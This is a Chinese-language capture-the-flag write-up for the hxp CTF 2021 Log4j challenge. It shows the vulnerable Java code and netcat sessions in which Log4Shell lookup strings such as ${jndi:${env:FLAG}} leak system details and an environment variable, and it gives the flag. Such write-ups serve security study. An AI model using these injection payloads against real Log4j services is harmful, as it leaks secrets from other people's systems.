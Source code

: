 ```yaml
---
title: Misc - Log 4 sanity check
description: 2021 | HXPCTF | MSC
---
```


## 题目

[ALARM ALARM](https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-549032-10F2.pdf?__blob=publicationFile&v=6)

`nc 65.108.176.77 1337`

## 解题思路

- 恰逢近期在修补 Log4j 相关的漏洞（CVE-2021-44228） ΣΣΣ(Φ ωΦ||¡)
- Log4j 除了能够记录文本外，还可以使用简单表达式记录动态内容，[Log4j – Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
- 使用 Java Decompiler 查看 `Vuln.class` 代码。注意到当输入不包含 `dragon` 或 `hxp` 时，会使用到 `logger`，为漏洞点

    ```java
    import java.util.Scanner;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    public class Vuln {
        public static void main(String[] paramArrayOfString) {
            try {
                Logger logger = LogManager.getLogger(Vuln.class);
                System.out.println("What is your favourite CTF?");
                String str = (new Scanner(System.in)).next();
                if (str.toLowerCase().contains("dragon")) {
                    System.out.println("<3");
                    System.exit(0);
                } 
                if (str.toLowerCase().contains("hxp")) {
                    System.out.println(":)");
                } else {
                    System.out.println(":(");
                    logger.error("Wrong answer: {}", str);
                } 
            } catch (Exception exception) {
                System.err.println(exception);
            } 
        }
    }
    ```

- 找到了漏洞点，可以简单地测试一下

    ```bash
    $ nc 65.108.176.77 1337
    What is your favourite CTF?
    ${jndi:${java:os}}       
    :(
    2021-12-20 03:01:29,326 main WARN Error looking up JNDI resource [Linux 5.10.0-9-amd64 unknown, architecture: amd64-64]. javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or in an application resource file: java.naming.factory.initial
    ...
    ```

- 那么 Flag 在哪里呢？看看 `Dockerfile`，发现 Flag 已经写到环境变量里了！

    ```bash
    CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
    ```

- 那么接下来就很简单了~利用 Environment Lookup 就可以轻松拿到 Flag：`hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}`

    ```bash
    $ nc 65.108.176.77 1337
    What is your favourite CTF?
    ${jndi:${env:FLAG}}
    :(
    2021-12-20 03:18:44,730 main WARN Error looking up JNDI resource [hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or in an application resource file: java.naming.factory.initial
    ```